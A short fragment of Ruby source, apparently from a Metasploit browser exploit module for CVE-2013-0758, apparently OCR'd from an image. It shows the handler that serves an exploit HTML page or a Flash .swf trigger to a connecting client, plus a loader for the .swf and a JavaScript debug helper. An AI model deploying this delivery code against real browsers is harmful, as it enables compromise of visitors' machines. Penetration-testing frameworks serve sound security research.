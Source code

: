 
print_status("Sending .swf trigger.")


send_response(cli, flash_trigger, { 'Content-Type' => 'application/x-shockwave-flash' })


else


# send initial HTML page


print_status("Target selected: #{target.name}")


print_status("Sending #{self.name}")


send_response_html(cli, generate_html(cli, target))


end


end





# @return [String] the contents of the .swf file used to trigger the exploit


def flash_trigger


swf_path = File.join(Msf::Config.data_directory, "exploits", "cve-2013-0758.swf")


@flash_trigger ||= File.read(swf_path)


end





# @return [String] containing javascript that will alert a debug string


# if the DEBUG is set to true


def js_debug(str, quote="'")


if datastore['DEBUG_JS'] then "alert(#{quote}#{str}#{quote})" else '' end


end
